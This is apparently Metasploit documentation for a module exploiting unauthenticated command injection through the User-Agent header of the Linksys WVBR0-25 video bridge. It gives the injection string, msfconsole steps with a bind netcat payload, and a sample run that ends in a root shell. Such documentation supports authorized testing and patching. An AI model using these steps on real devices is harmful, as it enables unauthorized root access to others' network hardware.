 ## Vulnerable Application

  This module exploits a command injection vulnerability in the Linksys WVBR0-25 wireless video bridge. More information about the device itself can be found on AT&T's [manuals page](https://www.att.com/help/manuals/directv/dvrs.html) under the "DIRECTV Wireless Video Bridge Gen2 Product Manual" heading, as well as on this [unofficial product page](https://www.solidsignal.com/pview.asp?p=wvb). A description of the exploited vulnerability is available in the Vulnerability Details section of [this advisory](http://www.zerodayinitiative.com/advisories/ZDI-17-973/).
  The latest confirmed vulnerable firmware version is 1.0.39. It may be possible to downgrade newer versions to a vulnerable version, but since firmware images are not available for download, this cannot be verified.

  There is no complete list of vulnerable firmware versions, however the check method can reliably detect whether a device is vulnerable. The check method browses to the root of the device's webserver with a User-Agent set to `"; printf "[random string]`. If the response contains an md5 hash of the random string, the device is vulnerable to command injection.

  Manual exploitation would equate to browsing to the URI `http://<ip>/` with the User-Agent header set to `"; command;`.

  Version 1.0.39 was confirmed vulnerable, and firmware 1.0.41 was released to fix the exploit.

## Verification Steps

  1. Make sure the device is running.
  2. Start msfconsole.
  3. Do: ```use exploit/linux/http/linksys_wvbr0_user_agent_exec_noauth```
  4. Do: ```set payload cmd/unix/bind_netcat```
  5. Do: ```set RHOST [ip]```
  6. Do: ```exploit```
  7. You should get a shell.

## Options

  **PAYLOAD**

  The `generic` and `netcat` payload types are valid.

## Scenarios

### Firmware 1.0.39

  The following is an example run getting a shell:

  ```
  msf > use exploit/linux/http/linksys_wvbr0_user_agent_exec_noauth 
  msf exploit(linksys_wvbr0_user_agent_exec_noauth) > set payload cmd/unix/bind_netcat 
  payload => cmd/unix/bind_netcat
  msf exploit(linksys_wvbr0_user_agent_exec_noauth) > set RHOST 10.0.0.104
  RHOST => 10.0.0.104
  msf exploit(linksys_wvbr0_user_agent_exec_noauth) > exploit

  [*] 10.0.0.104:80 - Trying to access the device ...
  [*] Started bind handler
  [*] 10.0.0.104:80 - Exploiting...
  [*] Command shell session 1 opened (10.0.0.109:40541 -> 10.0.0.104:4444) at 2017-12-21 17:09:54 -0600
  id

  uid=0(root) gid=0(root)
  ```
